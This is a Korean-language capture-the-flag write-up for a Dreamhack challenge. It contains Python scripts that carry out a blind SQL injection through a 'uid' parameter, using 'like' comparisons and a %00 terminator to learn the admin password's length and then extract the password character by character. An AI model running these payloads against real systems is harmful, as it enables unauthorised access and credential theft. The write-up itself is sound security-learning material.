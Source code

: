 `like"4"`로 변경하여 조회하면 `test`가 출력된다.

그렇다면 플래그의 값을 조회하기 위해 패스워드 길이를 늘려가며 참이 되는 경우를 확인하면 된다.

```python
url = 'http://host3.dreamhack.games:18327/'

def len_pw():
    i = 6
    while True:
        payload = f"'||length(upw)like\"{i}\";%00"
        param = {'uid' : payload}
        r = requests.get(url, params = param)

        if r.text.__contains__('admin'):
            print(f'[+] Password length = {i}')
            break
        else:
            i += 1
```

#### Password

<p align="center">
<img src ="https://github.com/peoplstar/peoplstar.github.io/assets/78135526/6f31aff1-a1f4-4129-85f1-c7e863170fd8" width = 850>
</p>

* admin의 `upw` 첫 문자는 **D**로 아스키 값이 68

* 출력되는 값이 `admin`일 때만 참인 것으로 판단

* 패스워드 길이만큼 아스키 값 비교

```python
def find_pw(len):
    global pw
    for i in (range(1, len + 1)):
        for j in (range(32, 127 + 1)):
            payload = f"'||(ascii(substr(upw,{i},1)))like({j});%00"
            param = {'uid' : payload}
            r = requests.get(url, params = param)

            if r.text.__contains__('admin'):
                pw += chr(j)           
                break
    
    print(f'[+] Password = {pw}')
```